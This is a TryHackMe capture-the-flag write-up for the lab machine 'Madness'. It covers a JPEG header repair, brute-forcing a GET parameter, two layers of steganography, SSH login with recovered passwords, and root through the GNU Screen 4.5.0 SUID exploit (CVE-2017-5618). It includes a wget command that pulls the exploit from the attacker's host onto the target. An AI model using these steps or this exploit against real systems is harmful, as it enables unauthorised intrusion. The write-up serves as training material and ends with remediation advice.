# Madness — TryHackMe Writeup

**Platform:** TryHackMe | **Difficulty:** Easy | **Target IP:** 10.67.170.204 | **Attacker IP:** 192.168.131.193

## Machine info



## Summary

**Madness** is a TryHackMe machine built around several layers of hidden-data analysis rather than a traditional service exploit chain. A corrupted JPEG header on the default Apache page conceals a hidden directory, which in turn hides a guessable secret behind a missing form. The revealed password unlocks a first steganography layer that only yields a username, forcing a second steganography layer — hidden inside the room's own banner image — to be cracked before the real SSH password surfaces. From there, an outdated SUID screen binary provides a direct path to root.

**Attack chain:** Corrupted JPEG Header Analysis → Hidden Directory /th1s_1s_h1dd3n → GET Parameter Brute Force → Steganography (Username) → Steganography (Password, Room Banner) → SSH as joker → SUID screen 4.5.0 (CVE-2017-5618) → Root

## 1. Reconnaissance

A full TCP port scan found only SSH and HTTP open:

```
nmap -p- -sS -sV -sC -vvv -oN scan.txt 10.67.170.204

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 62 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ac:f9:85:10:52:65:6e:17:f5:1c:34:e7:d8:64:67:b1 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDnNdHQKU4ZvpWn7Amdx7LPhuwUsHY8p1O8msRAEkaIGcDzlla2FxdlnCnS1h+A84lzn1oubZyb5vMrPM8T2IsxoSU2gcbbgfq/3giAL+hmuKm/nD43OKRflSHlcpIVgwQOVRdEfbQSOVpV5VBtJziA1Xu2dts2WWtawDS93CBtlfyeh+BuxZvBPX2k8XPWwykyR6cWbdGz1AAx6oxNRvNShJ99c9Vs7FW6bogwLAe9SWsFi2oB7ti6M/OH1qxgy7ZPQFhItvI4Vz2zZFGVEltL1fkwk2dat8yfFNWwm6+/cMTJqbVb7MPt3jc9QpmJmpgwyWuy4FTNgFt9GKNOJU6N
|   256 dd:8e:5a:ec:b1:95:cd:dc:4d:01:b3:fe:5f:4e:12:c1 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBGMMalsXVdAFj+Iu4tESrnvI/5V64b4toSG7PK2N/XPqOe3q3z5OaDTK6TWo0ezdamfDPem/UO9WesVBxmJXDkE=
|   256 e9:ed:e3:eb:58:77:3b:00:5e:3a:f5:24:d8:58:34:8e (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIB3zGVeEQDBVK50Tz0eNWzBJny6ddQfBb3wmmG3QtMAQ
80/tcp open  http    syn-ack ttl 62 Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Port 80 served Apache's default page:



Inspecting its source revealed a hidden HTML comment right after the embedded image:

```

<!-- They will never find me-->
```

Attempting to view `thm.jpg` directly in the browser failed.

## 2. Corrupted JPEG Header — Revealing a Hidden Directory

The image was downloaded locally for closer inspection:

```
curl -O http://10.67.170.204/thm.jpg
```

Identifying it gave no recognized format:

```
file thm.jpg
thm.jpg: data
```

`strings` surfaced a recognizable fragment of a JPEG Huffman table despite the failed identification:

```
strings thm.jpg
...
$3br
%&'()*456789:CDEFGHIJSTUVWXYZcdefghijstuvwxyz
...
```

A hex dump of the file's start showed why:

```
xxd thm.jpg
00000000: 8950 4e47 0d0a 1a0a 0000 0001 0100 0001  .PNG............
00000010: 0001 0000 ffdb 0043 0003 0202 0302 0203  .......C........
```

The first 8 bytes matched the PNG signature, but the fields immediately following (`01 01 00 00 01 00 01 00 00`) matched an untouched JFIF version/density block, and the file continued straight into a JPEG quantization table (`ff db 00 43`). This confirmed the first 11 bytes of a real JPEG/JFIF header (`ff d8 ff e0 00 10 4a 46 49 46 00`) had been overwritten with the PNG signature while the rest of the file stayed intact.

The header was patched directly in hex, replacing only those first 11 bytes:

```
xxd thm.jpg
00000000: ffd8 ffe0 0010 4a46 4946 0001 0100 0001  ......JFIF......
```

```
file thm.jpg
thm.jpg: JPEG image data, JFIF standard 1.01, aspect ratio, density 1x1, segment length 16, baseline, precision 8, 400x400, components 3
```

```
eog thm.jpg
```

Opening the repaired file revealed a hidden message pointing to a directory:



## 3. Brute Forcing the Secret Parameter

The revealed directory hosted a page prompting for a hidden secret:



Its source contained a comment narrowing down the range:

```
<!-- It's between 0-99 but I don't think anyone will look here-->
```

No `<form>` was present in the source, meaning the value had to be submitted directly as a GET parameter; the page's own wording — asking to "guess my secret" — pointed to `secret` as that parameter's name. It was brute forced with `Burp Intruder` using the Numbers payload type over the range 0–99; `secret=73` returned a response of a different length than the rest, revealing a password:





## 4. Steganography — Extracting a Username from thm.jpg

The revealed password was tested as a `steghide` passphrase against the already-repaired `thm.jpg`:

```
steghide extract -sf thm.jpg -p 'y2RPJ4QaPF!B'
wrote extracted data to "hidden.txt".
```

```
cat hidden.txt
Fine you found the password! 

Here's a username 

wbxre

I didn't say I would make it easy for you!
```

Decoding the extracted username with ROT13 revealed the real value:



## 5. A Second Steganography Layer — Cracking the Room Banner Image

Attempting to log in over SSH as `joker` with the password from section 3 returned an authentication failure, ruling it out as the real SSH credential. The room itself explicitly states that SSH brute forcing is not required, so attention turned instead to the room's own banner image:


The same password did not work against it with `steghide`, so the passphrase itself was brute forced instead with `stegseek` against `rockyou.txt`:

```
stegseek --crack 5iW7kC8.jpg /usr/share/wordlists/rockyou.txt
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: ""
[i] Original filename: "password.txt".
[i] Extracting to "5iW7kC8.jpg.out".
```

Reading the extracted file revealed the real password:

```
cat 5iW7kC8.jpg.out
I didn't think you'd find me! Congratulations!

Here take my password

*axA&GF8dP
```

## 6. Initial Access via SSH — joker

With the correct password in hand, SSH access was obtained as `joker`:



Reading the user's target file confirmed the foothold:



## 7. Privilege Escalation to Root — GNU Screen 4.5.0 (CVE-2017-5618)

`sudo -l` confirmed `joker` had no sudo rights, so attention turned to SUID binaries:

```
find / -perm -4000 2>/dev/null
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/bin/vmware-user-suid-wrapper
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/sudo
/bin/fusermount
/bin/su
/bin/ping6
/bin/screen-4.5.0
/bin/screen-4.5.0.old
/bin/mount
/bin/ping
/bin/umount
```

`/bin/screen-4.5.0` stood out as a non-standard location for the `screen` utility. Searching for a matching exploit confirmed a known local privilege escalation:

```
searchsploit screen 4.5.0
---------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                    |  Path
---------------------------------------------------------------------------------- ---------------------------------
GNU Screen 4.5.0 - Local Privilege Escalation                                     | linux/local/41154.sh
GNU Screen 4.5.0 - Local Privilege Escalation (PoC)                               | linux/local/41152.txt
---------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

The PoC (CVE-2017-5618) was mirrored locally with `searchsploit -m linux/local/41154.sh` and served over HTTP:

```
python -m http.server
```

It was then pulled onto the target:

```
wget http://192.168.131.193:8000/41154.sh
```

And made executable:

```
chmod +x 41154.sh
```

Running the exploit returned a root shell:





## Root Cause & Remediation

| Issue | Fix |
|---|---|
| Sensitive directory access gated behind a brute-forceable 2-digit secret with no rate limiting | Use real authentication with rate limiting/account lockout instead of a guessable value |
| Credentials distributed via steganography and obfuscated text instead of secure storage | Avoid security-through-obscurity for credential handling; use a proper secrets management process |
| Outdated `screen` binary (4.5.0) kept with the SUID bit set, vulnerable to CVE-2017-5618 | Patch or remove the vulnerable `screen` build and strip unnecessary SUID bits from non-essential binaries |
